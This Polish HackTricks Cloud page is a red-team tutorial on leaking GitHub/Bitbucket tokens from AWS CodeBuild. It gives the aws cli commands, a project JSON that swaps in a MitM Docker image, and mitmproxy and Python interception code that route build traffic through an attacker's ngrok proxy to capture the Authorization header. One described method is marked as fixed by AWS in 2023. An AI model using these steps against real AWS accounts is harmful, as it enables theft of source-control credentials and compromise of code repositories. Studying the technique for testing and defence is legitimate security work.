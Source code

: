 # AWS Codebuild - Wyciek tokenów

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>

## Odzyskiwanie skonfigurowanych tokenów Github/Bitbucket

Najpierw sprawdź, czy istnieją skonfigurowane poświadczenia źródłowe, które można wyciec:
```bash
aws codebuild list-source-credentials
```
### Za pomocą obrazu Docker

Jeśli odkryjesz, że uwierzytelnianie, na przykład do Githuba, jest ustawione w koncie, możesz **wyciec** ten **dostęp** (**token GH lub token OAuth**) poprzez zmuszenie CodeBuild do **użycia określonego obrazu Docker** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt CodeBuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Dockera**.

Obraz Dockera, który możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Jest to bardzo podstawowy obraz Dockera, który ustawia zmienne środowiskowe `https_proxy`, `http_proxy` i `SSL_CERT_FILE`. Pozwoli to na przechwycenie większości ruchu hosta wskazanego w `https_proxy` i `http_proxy`, a także zaufanie do certyfikatu SSL wskazanego w `SSL_CERT_FILE`.

1. **Utwórz i przekaż swój własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami w repozytorium, aby ustawić adres IP proxy i ustawić certyfikat SSL, a następnie **zbuduj obraz Dockera**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`**, na przykład `ngrok tcp 4444`, aby ustawić proxy na swój host.
* Gdy już masz zbudowany obraz Dockera, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...).
2. **Ustaw środowisko**
* Utwórz **nowy projekt CodeBuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt tak, aby używał **wcześniej wygenerowanego obrazu Dockera**.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM na swoim hoście**

* Jak wskazano w **repozytorium Github**, możesz użyć czegoś takiego jak:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Użyta wersja **mitmproxy to 9.0.1**, zgłoszono, że wersja 10 może nie działać.
{% endhint %}

4. **Uruchom budowę i przechwyć poświadczenia**

*   Możesz zobaczyć token w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Można to również zrobić za pomocą aws cli, używając czegoś takiego jak

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Przez protokół HTTP~~

{% hint style="success" %}
**Ta podatność została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 roku (chyba w piątek). Atakujący nie może już z niej korzystać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild mógł wyciec token Github/Bitbucket** skonfigurowany lub, jeśli uprawnienia były skonfigurowane za pomocą OAuth, **tymczasowy token OAuth używany do dostępu do kodu**.

* Atakujący mógł dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild, wskazując na swoją maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Następnie zmień URL repozytorium github na HTTP zamiast HTTPS, na przykład: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Następnie uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazywanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij **Zbuduj projekt**, a **poświadczenia** zostaną przesłane w postaci tekstu jawnego (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojego komputera, wyświetlić wszystkie przywileje, jakie posiada, i (nadużywać) łatwiej niż przy użyciu usługi CodeBuild bezpośrednio.
{% endhint %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
